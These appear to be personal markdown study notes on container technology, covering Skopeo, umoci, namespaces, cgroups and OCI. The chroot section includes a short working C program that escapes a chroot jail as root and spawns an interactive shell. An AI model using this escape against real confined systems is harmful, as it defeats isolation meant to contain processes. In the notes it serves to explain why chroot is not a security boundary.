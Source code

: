 ## Overview
Containers are only isolated groups of processes running on a single host, which fulfill a set of “common” features. A container is built using layers, each layer represents some additional functionality. 


## Skopeo
Skopeo inspects a container image, it can perform operations which consist of:
- Copying an image from and to various storage mechanisms. For example you can copy images from one registry to another, without requiring privilege.
- Inspecting a remote image showing its properties including its layers, without requiring you to pull the image to the host.
- Deleting an image from an image repository.
- Syncing an external image repository to an internal registry for air-gapped deployments.
- When required by the repository, skopeo can pass the appropriate credentials and certificates for authentication.

## Umoci
umoci modifies Open Container images

## Chroot
Lets you change the root to a new root, however you can pop out of the environment with a process running as the root user since you can create a new chroot and traverse relatively out of it 
```
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
    mkdir(".out", 0755);
    chroot(".out");
    chdir("../../../../../");
    chroot(".");
    return execl("/bin/bash", "-i", NULL);
}
```

## Linux namespaces
wrap certain global system resources in an abstraction layer. This makes it appear like the processes within a namespace have their own isolated instance of the resource

seven distinct namespaces implemented: 
- mnt
- pid
- net
- ipc
- uts
- user
- cgroup




## Cgroups 
short for "control group," is a Linux kernel feature that allows the management of system resources and sets limits for groups of processes. It provides a way to group processes and manage their resource usage, such as CPU, memory, and I/O bandwidth, among others.

## Open Container Initiative 
An open format for containers and an alternative to Docker. You can read more about the format [here](https://ravichaganti.com/blog/2022-10-28-understanding-container-images-oci-image-specification/}
